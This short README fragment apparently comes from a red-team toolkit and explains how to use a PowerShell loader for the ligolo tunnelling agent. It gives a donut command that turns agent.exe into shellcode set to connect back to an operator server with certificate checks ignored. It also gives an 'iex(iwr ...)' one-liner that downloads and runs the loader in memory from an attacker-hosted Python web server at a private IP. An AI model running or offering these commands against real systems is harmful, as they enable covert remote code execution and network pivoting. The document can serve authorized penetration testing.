 ### ligolo.ps1 
- Make sure to convert agent.exe of ligolo to shellcode: `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`
- Make sure you are running as x64 bit process before running: Powershell: `[Environment]::Is64BitProcess` CMD: `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)
- Invoke it: `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

*NOTE: make sure both ligolo.ps1 and agent.bin in the same directory, then serve them by simply using python server*.
